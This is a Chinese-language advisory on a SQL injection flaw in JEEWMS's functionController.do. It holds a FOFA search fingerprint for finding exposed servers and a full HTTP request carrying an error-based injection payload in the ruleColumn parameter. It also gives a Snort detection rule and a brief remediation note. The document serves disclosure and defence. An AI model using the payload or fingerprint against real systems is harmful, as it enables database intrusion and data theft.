

# JEEWMS functionController.do SQL注入漏洞

JEEWMS functionController.do SQL注入漏洞

# 影响版本

当前已发所有版本

# **漏洞状态**

|**漏洞细节**|**漏洞POC**|**漏洞EXP**|**在野利用**|
| :-: | :-: | :-: | :-: |
|**是**|**已公开**|**已公开**|**已知**|

## 风险等级

|**维度**|**评价**|
| :-: | :-: |
|**威胁等级**|**高危**|
|**影响面**|**广**|
|**攻击者价值**|**高**|
|**利用难度**|**低**|

# 漏洞复现

**fofa:**   **body=&quot;plug-in/lhgDialog/lhgdialog.min.js?skin=metro&quot;**

**POC/EXP：**

**step1**  sql注入

```
GET /rest/../functionController.do?saverule&ruleColumn=1'+AND+GTID_SUBSET(CONCAT(0x716b717871,(SELECT+(ELT(5406=5406,1))),0x7162626a71),5406)--+CHdz&ruleConditions=1 HTTP/1.1
Host: 127.0.0.1
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0Accept: */*
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Length: 0


```

​​

**sonrt规则：**

```
alert http any any -> $HOME_NET any (
    msg:"JEEWMS - functionController.do ruleColumn SQL注入漏洞 (GTID_SUBSET报错注入)";
    flow:to_server,established;
    http.method; content:"GET";
    http.uri;
        content:"/functionController.do"; fast_pattern;
        content:"saverule"; nocase; distance:0;
        content:"ruleColumn="; nocase; distance:0;
        content:"GTID_SUBSET"; nocase; distance:0; within:50;
        content:"CONCAT"; nocase; distance:0; within:50;
        content:"SELECT"; nocase; distance:0; within:50;
    metadata:
        service http,
        affected_product "JEEWMS",
        vulnerability_type "SQL Injection (Error-based)",
        severity "high";
    classtype:web-application-attack;
    sid:1000811;
    rev:1;
    priority:1;
)
```

# 漏洞修复

#### 官方修复

* **升级至安全版本**：联系官方获取针对该漏洞的安全补丁或升级版本。

‍
